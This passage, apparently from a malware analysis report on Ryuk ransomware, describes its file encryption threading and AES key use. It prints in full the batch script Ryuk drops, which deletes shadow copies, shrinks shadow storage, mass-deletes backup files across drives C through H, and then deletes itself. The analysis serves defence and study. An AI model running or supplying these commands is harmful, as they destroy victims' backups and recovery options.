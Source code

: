 Ryuk drops a batch script at `C:\Users\Public\window.bat` which deletes all shadow copies and possible backups, then the script deletes itself.

```bat
vssadmin Delete Shadows /all /quiet
vssadmin resize shadowstorage /for=c: /on=c: /maxsize=401MB
vssadmin resize shadowstorage /for=c: /on=c: /maxsize=unbounded
vssadmin resize shadowstorage /for=d: /on=d: /maxsize=401MB
vssadmin resize shadowstorage /for=d: /on=d: /maxsize=unbounded
vssadmin resize shadowstorage /for=e: /on=e: /maxsize=401MB
vssadmin resize shadowstorage /for=e: /on=e: /maxsize=unbounded
vssadmin resize shadowstorage /for=f: /on=f: /maxsize=401MB
vssadmin resize shadowstorage /for=f: /on=f: /maxsize=unbounded
vssadmin resize shadowstorage /for=g: /on=g: /maxsize=401MB
vssadmin resize shadowstorage /for=g: /on=g: /maxsize=unbounded
vssadmin resize shadowstorage /for=h: /on=h: /maxsize=401MB
vssadmin resize shadowstorage /for=h: /on=h: /maxsize=unbounded
vssadmin Delete Shadows /all /quiet
del /s /f /q c:\*.VHD c:\*.bac c:\*.bak c:\*.wbcat c:\*.bkf c:\Backup*.* c:\backup*.* c:\*.set c:\*.win c:\*.dsk
del /s /f /q d:\*.VHD d:\*.bac d:\*.bak d:\*.wbcat d:\*.bkf d:\Backup*.* d:\backup*.* d:\*.set d:\*.win d:\*.dsk
del /s /f /q e:\*.VHD e:\*.bac e:\*.bak e:\*.wbcat e:\*.bkf e:\Backup*.* e:\backup*.* e:\*.set e:\*.win e:\*.dsk
del /s /f /q f:\*.VHD f:\*.bac f:\*.bak f:\*.wbcat f:\*.bkf f:\Backup*.* f:\backup*.* f:\*.set f:\*.win f:\*.dsk
del /s /f /q g:\*.VHD g:\*.bac g:\*.bak g:\*.wbcat g:\*.bkf g:\Backup*.* g:\backup*.* g:\*.set g:\*.win g:\*.dsk
del /s /f /q h:\*.VHD h:\*.bac h:\*.bak h:\*.wbcat h:\*.bkf h:\Backup*.* h:\backup*.* h:\*.set h:\*.win h:\*.dsk
del %0
```

## The Encryption Process

Ryuk uses a multi threading approach for the encryption process, it creates a new thread for each file it encrypts which makes it very fast.

It starts enumerating files using `FindFirstFileW()` and `FindNextFileW()` then it passes each file name to a new encryption thread. Note that Ryuk avoids encrypting these file extensions:

```
.dll
.lnk
.hrmlog
.ini
.exe
```

Each encryption thread starts by generating a random 256 AES encryption key using `CryptGenKey()`, Ryuk utilizes the WindowsCrypto API for the encryption.

[![16](/assets/images/malware-reports/ryuk-ransomware/16.png)](/assets/images/malware-reports/ryuk-ransomware/16.png)
